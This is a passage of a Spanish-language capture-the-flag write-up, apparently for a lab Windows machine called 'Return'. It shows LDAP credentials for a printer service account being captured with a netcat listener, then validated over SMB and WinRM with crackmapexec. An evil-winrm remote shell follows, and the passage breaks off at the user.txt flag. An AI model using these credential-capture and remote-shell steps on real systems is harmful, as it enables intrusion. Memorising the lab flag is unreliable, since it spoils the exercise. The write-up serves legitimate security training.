 		```
	- **Obtencion de contraseña por medio de netcat:**
		
		```
		nc -nlvp 389
		listening on [any] 389 ...
		connect to [10.10.14.3] from (UNKNOWN) [10.10.11.108] 49439
		0*`%return\svc-printer�
        1edFg43012!!^C
		```
	- ![[Pasted image 20250401205243.png]]
	- **Obtencion de informacion a partir de la contraseña obtenida anteriormente:**
		```bash
		crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'        
		SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
		SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
		```

```bash
crackmapexec winrm  10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

- ### Éxplotacion:
	- **Evil-winrm:**
		```bash
		evil-winrm -i 10.10.11.108 -p '1edFg43012!!' -u 'svc-printer'
                                        
		Evil-WinRM shell v3.7
		                                        
		Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
		                                        
		Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
		                                        
		Info: Establishing connection to remote endpoint
		*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
		```
		- **Obtencion de flag user.txt:**
			```bash
			*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
			446ef411386ccafe01f7d71cc83a89e5
			*Evil-WinRM* PS C:\Users\svc-printer\Desktop> pwd
			
			Path
			----
			C:\Users\svc-printer\Desktop
			